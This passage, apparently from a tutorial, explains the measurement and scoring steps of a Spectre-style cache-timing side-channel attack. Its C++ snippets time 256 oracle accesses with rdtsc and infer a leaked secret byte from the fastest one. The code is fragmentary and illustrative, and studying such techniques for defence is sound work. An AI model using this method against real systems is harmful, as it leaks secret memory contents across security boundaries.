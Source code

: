 #### Step 3: Cache Timing Measurement

```cpp
std::vector<uint64_t> access_times(256);

for (size_t i = 0; i < 256; ++i) {
    // Measure access time to oracle[i]
    uint64_t start = __rdtsc();  // Read timestamp counter
    volatile char dummy = oracle[i].value;  // Force memory access
    uint64_t end = __rdtsc();
    
    access_times[i] = end - start;
}
```

**Timing Pattern Analysis:**

```cpp
// Expected timing results:
access_times[0x00] = 400 cycles   // Cache miss (memory access)
access_times[0x01] = 380 cycles   // Cache miss
access_times[0x02] = 420 cycles   // Cache miss
// ...
access_times[0x73] = 45 cycles    // CACHE HIT! (secret value)
// ...
access_times[0xFF] = 390 cycles   // Cache miss
```

#### Step 4: Statistical Analysis and Confidence

```cpp
std::pair<bool, char> RecomputeScores(char public_byte_value) {
    // Find minimum access time
    auto min_iter = std::min_element(access_times.begin(), access_times.end());
    size_t fastest_index = std::distance(access_times.begin(), min_iter);
    uint64_t fastest_time = *min_iter;
    
    // Calculate confidence metrics
    uint64_t second_fastest = find_second_minimum(access_times);
    uint64_t timing_gap = second_fastest - fastest_time;
    
    // Exclude public data false positive
    if (fastest_index == static_cast<size_t>(public_byte_value)) {
        // This could be noise, find next fastest
        fastest_index = find_second_fastest_excluding(public_byte_value);
    }
    
    // Confidence threshold
    bool confident = (timing_gap > THRESHOLD) && 
                    (fastest_time < CACHE_HIT_THRESHOLD);
    
    return {confident, static_cast<char>(fastest_index)};
}
```
